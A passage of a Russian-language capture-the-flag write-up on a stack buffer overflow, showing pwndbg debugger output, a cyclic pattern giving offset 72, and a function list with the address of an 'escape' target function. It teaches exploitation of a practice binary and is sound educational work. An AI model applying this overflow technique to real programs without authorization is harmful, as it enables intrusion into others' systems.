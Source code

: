 ```bash
01:0008│     0x7fffffffdec8 ◂— 'baaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
02:0010│     0x7fffffffded0 ◂— 'caaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
03:0018│     0x7fffffffded8 ◂— 'daaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
04:0020│     0x7fffffffdee0 ◂— 'eaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
05:0028│     0x7fffffffdee8 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
06:0030│     0x7fffffffdef0 ◂— 'gaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
07:0038│     0x7fffffffdef8 ◂— 'haaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
────────────────────────────────[ BACKTRACE ]────────────────────────────────
 ► 0         0x401220 main+171
   1 0x616161616161616c
   2   0x7f006161616d
   3      0x100000000
   4         0x401175 main
   5   0x7ffff7df87cf init_cacheinfo+287
   6              0x0
─────────────────────────────────────────────────────────────────────────────
```

Здесь мы можем заметить что наш ввод как раз и вызвал нам нужную ошибку Segmentation fault. Теперь мы можем узнать offset при котором произошло переполнение и программа вылетела с ошибкой. Проанализируем первую строку после ввода:

```bash
──────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────
*RAX  0x616161616161616a ('jaaaaaaa')
```

Введем команду `cyclic -l`, чтобы узнать offset:

```bash
pwndbg> cyclic -l jaaaaaaa
Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)
Found at offset 72
```

Видим надпись `Found at offset 72`, что означает что размер буффера составляет 72 байта. Значит если мы напишем символов больше чем 72, то оставшиеся и будут записываться дальше в ячейки памяти, соответственно в следующую переменную (у нас это `local_10`). Осталось узнать сам адрес функции `escape` куда нам нужно попасть.

Пропишем команду `info functions`:

```bash
pwndbg> info functions
All defined functions:
Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  fflush@plt
0x0000000000401050  __isoc99_scanf@plt
0x0000000000401060  exit@plt
0x0000000000401070  fwrite@plt
0x0000000000401080  _start
0x00000000004010b0  _dl_relocate_static_pie
0x00000000004010c0  deregister_tm_clones
0x00000000004010f0  register_tm_clones
0x0000000000401130  __do_global_dtors_aux
0x0000000000401160  frame_dummy
0x0000000000401162  printArt
0x0000000000401175  main
0x000000000040122c  escape
0x0000000000401260  __libc_csu_init
0x00000000004012c0  __libc_csu_fini
```